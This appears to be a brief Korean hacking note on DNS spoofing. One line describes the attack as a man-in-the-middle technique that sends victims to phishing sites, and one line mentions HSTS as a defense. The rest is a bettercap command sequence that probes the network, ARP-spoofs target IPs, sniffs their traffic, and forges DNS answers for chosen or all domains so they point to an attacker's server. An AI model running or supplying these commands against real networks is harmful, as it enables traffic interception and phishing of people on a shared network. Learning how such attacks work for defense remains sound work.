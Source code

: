 # hacking DNS Spoofing

> 중간자 공격을 하여, DNS 서버의 응답을 변조하여 피해자를 피싱 사이트로 유도하는 공격
>
> > HSTS 등의 보안 기술로 방어 가능

```sh
bettercap -iface eth0

net.probe on
net.show

set arp.spoof.fullduplex true
set arp.spoof.targets [target ip]

arp.spoof on # ARP Spoofing 시작
net.sniff on # 패킷 스니핑 시작

set dns.spoof.domains [target_domain] # e.g. www.google.com / *.google.com
set dns.spoof.address [server_ip] # 제공할 IP 주소
set dns.spoof.all true # 모든 DNS 요청을 변조
dns.spoof on # DNS Spoofing 시작
```
